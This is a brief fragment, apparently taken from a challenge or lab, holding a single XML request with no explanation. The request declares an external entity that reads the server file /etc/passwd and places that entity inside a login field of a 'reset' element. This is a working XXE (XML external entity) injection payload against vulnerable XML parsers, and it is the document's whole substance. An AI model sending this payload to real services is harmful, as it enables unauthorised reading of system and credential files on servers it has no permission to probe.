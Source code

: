 
<?xml version="1.0"?>
	<!DOCTYPE foo [ <!ENTITY file  SYSTEM "file:///etc/passwd">]>
	<reset>
		<login>
			&file;
		</login>
		<secret>
			Any bugs?
		</secret>
	</reset>